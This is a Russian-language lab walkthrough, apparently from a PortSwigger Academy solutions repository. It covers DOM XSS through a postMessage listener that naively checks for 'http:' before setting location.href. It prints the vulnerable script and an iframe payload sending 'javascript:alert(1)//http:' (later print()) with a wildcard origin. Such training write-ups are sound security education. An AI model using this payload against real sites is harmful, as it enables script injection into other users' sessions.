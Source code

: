 и увидим следующий скрипт
```
<script>
                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
                    </script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/2.%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/pics%20for%20walkthrough/1.png)

 JavaScript содержит ошибочную проверку `indexOf()`, которая ищет строки `"http:"` или `"https:"` в любом месте веб-сообщения. Он также содержит местоположение `location.href`

Этот скрипт отправляет веб-сообщение, содержащее произвольную полезную информацию JavaScript, а также строку `"http:"`. Второй аргумент указывает, что для веб-сообщения допускается любой целевой источник.

Когда iframe загружается, метод `postMessage()` отправляет полезную информацию JavaScript на главную страницу. Прослушиватель событий обнаруживает строку `"http:"` и продолжает отправлять полезную информацию в указанное местоположение.приемник внешних ссылок, где вызывается функция `alert(1)`.

Далее сконфигурируем payload
```
<iframe src="https://0a2c00fb04d74ba781fd5756002900e1.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert(1)//http:','*')">
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/2.%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/pics%20for%20walkthrough/2.png)

нажмем кнопку `View explot` и
и увидим, что XSS Отработал

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/17.%20DOM-based%20vulnerabilities/2.%20DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/pics%20for%20walkthrough/3.png)


Изменим `alert(1)` на `print()` так как это требует задание, получив
```
<iframe src="https://0a2c00fb04d74ba781fd5756002900e1.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
Нажем `Store` -> `Deliver exploit to victim`
и получим уведомление об успешно выполненной лабораторной работе

